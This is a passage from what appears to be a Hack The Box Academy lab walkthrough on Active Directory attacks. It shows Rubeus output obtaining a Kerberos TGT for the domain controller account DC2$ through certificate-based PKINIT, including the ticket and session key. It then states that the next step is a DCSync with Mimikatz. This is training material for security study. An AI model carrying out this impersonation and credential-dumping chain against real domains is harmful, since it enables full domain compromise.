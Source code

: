 ```powershell-session
[*] Using PKINIT with etype rc4_hmac and subject: CN=DC2.eagle.local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\DC2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      BmtyYnRndBsLZWFnbGUubG9jYWw=
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/eagle.local
  ServiceRealm             :  EAGLE.LOCAL
  UserName                 :  DC2$
  UserRealm                :  EAGLE.LOCAL
  StartTime                :  19/12/2022 23.43.15
  EndTime                  :  20/12/2022 09.43.15
  RenewTill                :  26/12/2022 23.43.15
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  SICrZ4HjAjHqvZh03xo99w==
  ASREP (key)              :  BFC00B974546271BF0C6ACAC32447EB6
```

![Rubeus TGT for DC2](https://academy.hackthebox.com/storage/modules/176/A14/RubeusCert1.png)

![Rubeus TGT for DC2](https://academy.hackthebox.com/storage/modules/176/A14/RubeusCert2.png)

We have now obtained a TGT for the Domain Controller DC2. Therefore we become DC2. Being a Domain Controller, we can now trigger `DCSync` with `Mimikatz`:

